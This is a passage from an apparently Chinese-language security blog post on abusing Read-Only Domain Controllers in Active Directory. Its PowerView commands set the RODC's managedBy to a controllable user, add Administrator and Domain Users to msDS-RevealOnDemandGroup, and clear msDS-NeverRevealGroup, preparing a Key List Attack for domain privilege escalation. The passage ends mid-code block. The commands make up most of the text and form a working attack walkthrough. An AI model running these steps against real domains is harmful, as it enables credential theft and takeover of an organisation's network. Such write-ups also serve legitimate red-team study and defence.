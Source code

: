 通过修改 RODC 的 ManagedBy 属性，攻击者可以将 RODC 的管理权限委派给任意可控的域用户，如下所示。

```powershell
Import-Module .\PowerView.ps1
Set-DomainObject -Identity 'CN=RODC,OU=Domain Controllers,DC=corp,DC=local' -Set @{'managedBy'='CN=Marcus,CN=Users,DC=corp,DC=local'}
```

之后，攻击者可以通过这个用户登录到 RODC，并获取 RODC 的完全控制权限。

### Domain Privilege Escalation

接管 RODC 之后，攻击者可以转储 RODC Krbtgt 账户凭据。通过修改 RODC 的 msDS-NeverRevealGroup 和 msDS-RevealOnDemandGroup 属性并借助 Key List Attack 最终可以实现域提权，如下所示。

（1）将域管理员账户添加到 RODC 的 msDS-RevealOnDemandGroup 属性中：

```powershell
# 导入 PowerView 模块
Import-Module .\PowerView.ps1
# 获取当前属性值
Get-DomainObject 'CN=RODC,OU=Domain Controllers,DC=corp,DC=local' -Properties 'msDS-RevealOnDemandGroup' | Select-Object -ExpandProperty 'msDS-RevealOnDemandGroup'
# 设置新的属性值
Set-DomainObject -Identity 'CN=RODC,OU=Domain Controllers,DC=corp,DC=local' -Set @{'msDS-RevealOnDemandGroup'=@(
    'CN=Allowed RODC Password Replication Group,CN=Users,DC=corp,DC=local', 
    'CN=Domain Users,CN=Users,DC=corp,DC=local',
    'CN=Administrator,CN=Users,DC=corp,DC=local',
    'CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=corp,DC=local'
)}
```

![image-20231124151811214](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231124151811214.png)

（2）暂时将 RODC 的 msDS-NeverRevealGroup 属性中值清空：

```powershell
# 导入 PowerView 模块
Import-Module .\PowerView.ps1
# 获取当前属性值
Get-DomainObject 'CN=RODC,OU=Domain Controllers,DC=corp,DC=local' -Properties 'msDS-NeverRevealGroup' | Select-Object -ExpandProperty 'msDS-NeverRevealGroup'
# 清空 msDS-NeverRevealGroup 的属性值
Set-DomainObject -Identity 'CN=RODC,OU=Domain Controllers,DC=corp,DC=local' -Clear 'msDS-NeverRevealGroup'
# 恢复 msDS-NeverRevealGroup 的属性值
Set-DomainObject -Identity 'CN=RODC,OU=Domain Controllers,DC=corp,DC=local' -Set @{'msDS-NeverRevealGroup'=@(
    'CN=Denied RODC Password Replication Group,CN=Users,DC=corp,DC=local', 
    'CN=Account Operators,CN=Builtin,DC=corp,DC=local',
```